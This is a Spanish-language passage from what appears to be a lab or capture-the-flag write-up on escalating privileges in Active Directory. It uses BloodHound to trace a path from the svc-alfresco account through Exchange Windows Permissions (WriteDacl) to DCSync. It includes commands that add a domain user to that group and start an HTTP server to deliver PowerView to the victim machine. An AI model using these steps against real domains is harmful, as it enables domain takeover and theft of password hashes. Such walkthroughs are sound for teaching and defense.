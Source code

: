 ![imagen](https://github.com/user-attachments/assets/f17fb5dd-0f77-4a3d-943a-20a541e17101)

A partir del usuario `svc-alfresco`, seleccionamos "Objetivos de alto valor alcanzables".

![imagen](https://github.com/user-attachments/assets/c225d918-d26a-4799-a9f2-18d71800cc82)

Claramente, podemos observar que el usuario `svc-alfresco` es parte del grupo "**SERVICE ACCOUNTS**". A su vez, este grupo es miembro del grupo "**PRIVILEGED IT ACCOUNTS**", y este último grupo pertenece al grupo "**ACCOUNT OPERATORS**". En resumen, el usuario `svc-alfresco` es miembro del grupo **PRIVILEGED IT ACCOUNTS**.

![imagen](https://github.com/user-attachments/assets/560293b0-e62c-4110-b584-fd011f3e4207)

A partir del grupo **ACCOUNT OPERATORS**, seleccionamos "Objetivos de alto valor alcanzables".

![imagen](https://github.com/user-attachments/assets/e978ffb7-bba7-45ff-85df-fc444d576fc0)

Podemos observar que los miembros del grupo **ACCOUNT OPERATORS** tiene el control total sobre el grupo **EXCHANGE WINDOWS PERMISSIONS**.

La principal vulnerabilidad aquí es que Exchange tiene altos privilegios en el dominio de Active Directory. El grupo **EXCHANGE WINDOWS PERMISSIONS** tiene acceso **WriteDacl** sobre el objeto Domain en Active Directory, lo que permite a cualquier miembro de este grupo modificar los privilegios del dominio, entre los que se encuentra el privilegio de realizar operaciones **DCSync**. Los usuarios o equipos con este privilegio pueden realizar operaciones de sincronización que normalmente utilizan los Controladores de Dominio para replicarse, lo que permite a los atacantes sincronizar todas las contraseñas hash de los usuarios del Directorio Activo.

![imagen](https://github.com/user-attachments/assets/7e3701bb-1041-4119-a40a-17f179fa767d)

También podemos hacer clic en **WriteDacl** y luego seleccionar "**Help**" para obtener información sobre esta vulnerabilidad, así como un ejemplo de cómo explotarla.

![imagen](https://github.com/user-attachments/assets/54303fff-dcc6-402a-bc5c-46475eb5b479)

Creamos un nuevo usuario y lo agregamos al grupo "Exchange Windows Permissions".

```bash
net user pablo password123$ /domain /add

net group "Exchange Windows Permissions" pablo /add
```

![imagen](https://github.com/user-attachments/assets/0534ef1c-9c5e-4ada-a9e1-38ee0295bd56)

Para llevar a cabo este ataque, es necesario descargar [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) y ejecutarlo en la máquina víctima.

Entonces, procedemos a crear un servidor con Python.

```bash
python3 -m http.server 80
```

Luego, descargamos y ejecutamos el script de PowerShell desde la URL atacante.
